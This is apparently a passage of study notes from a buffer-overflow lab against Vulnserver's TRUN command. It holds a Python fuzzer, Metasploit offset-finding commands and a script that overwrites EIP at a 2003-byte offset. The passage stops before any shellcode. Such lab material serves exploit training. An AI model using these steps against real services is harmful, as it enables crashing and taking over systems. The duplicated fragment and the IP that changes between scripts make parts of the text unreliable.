 ```python
        s.send((payload.encode()))
        s.close()
        sleep(1)
        buffer = buffer + "A"*100
    except:
        print ("The fuzzing crashed at %s bytes" % str(len(buffer)))
        sys.exit()

```#!/usr/bin/python
 
import sys, socket
from time import sleep
 
buffer = "A" * 100
 
while True:
    try:
        payload = "TRUN /.:/" + buffer
 
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.1.35',9999))
        print ("[+] Sending the payload...\n" + str(len(buffer)))
        s.send((payload.encode()))
        s.close()
        sleep(1)
        buffer = buffer + "A"*100
    except:
        print ("The fuzzing crashed at %s bytes" % str(len(buffer)))
        sys.exit()
		
```

## Finding the Offset

- Using metasploit module:

```bash

/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000

```

- Read immunity debugger and find the values at the EIP.
- Then run:

`/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 386F4337`

- Offset Discoverd at 2003 bytes

## Overwriting the EIP

- Changing the python script to look like this:
```python

#!/usr/bin/python
import sys, socket

shellcode = "A" * 2003 + "B" * 4

try:
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(('192.168.17.12', 9999))
	s.send(('TRUN /.:/' + shellcode))
	s.close()

```